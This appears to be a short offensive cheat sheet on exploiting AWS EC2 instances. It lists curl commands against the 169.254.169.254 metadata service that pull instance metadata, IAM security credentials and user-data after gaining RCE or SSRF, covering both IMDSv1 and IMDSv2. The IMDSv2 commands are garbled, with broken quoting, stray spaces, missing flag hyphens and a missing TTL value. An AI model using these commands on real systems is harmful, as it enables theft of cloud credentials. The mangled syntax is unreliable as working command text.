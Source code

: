 # AWS EC2 Exploitation

### Initial Access can happen by RCE or SSRF

### Metadata can be used to exfiltrate information from the instance

# Remote Code Execution

## AWS Metadata

### If we have remote code execution or SSRF, we can grab metadata information

 - curl http://169.254.169.254/latest/meta-data

### Grabbing the keys to access the instance

 - curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials

### Grabbing the keys in metadata version 2

 - TOKEN='curl -X PUT "http://169.254.169.254/latest/ api /token" -H "X-aws-ec2-metadata-token-ttl-seconds:' && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data

## AWS Userdata

### Version 1

 - curl http://169.254.169.254/latest/user-data/

### Version 2

 - TOKEN='curl -X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: && curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/user-data
